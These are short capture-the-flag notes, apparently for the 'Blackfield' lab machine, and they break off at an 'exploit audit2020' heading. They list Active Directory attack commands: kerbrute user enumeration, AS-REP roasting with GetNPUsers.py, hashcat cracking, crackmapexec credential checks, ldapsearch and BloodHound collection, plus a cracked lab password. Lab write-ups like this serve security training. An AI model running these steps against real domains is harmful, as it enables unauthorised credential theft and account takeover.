 ##  user brute

Kerbrute, found 3 valid user.

```bash
kerbrute userenum -d blackfield.local  --dc $tip  users.list
```



## Asreproast

got support password. No winrm connect.

> support:#00^BlackKnight

```bash
GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip blackfield.local/ -format hashcat -outputfile asreproast.hash

hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt

crackmapexec smb $tip -u support -p "#00^BlackKnight" --share

crackmapexec winrm $tip -u support -p "#00^BlackKnight"
```



## ldapsearch

Nothings found.

```bash
ldapsearch -H ldap://$tip -D 'support' -w '#00^BlackKnight' -x -b "DC=blackfield,DC=local" > ldap_cred.log
```



# exploit audit2020



## bloodhound py

enum with support creds via bloodhound py.

```bash
pip install bloodhound

# -c ALL - All collection methods
# -u support -p #00^BlackKnight - Username and password to auth as
# -d blackfield.local - domain name
# -dc dc01.blackfield.local - DC name (it won’t let you use an IP here)
# -ns 10.10.10.192 - use 10.10.10.192 as the DNS server
bloodhound-python -c All -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns $tip
```

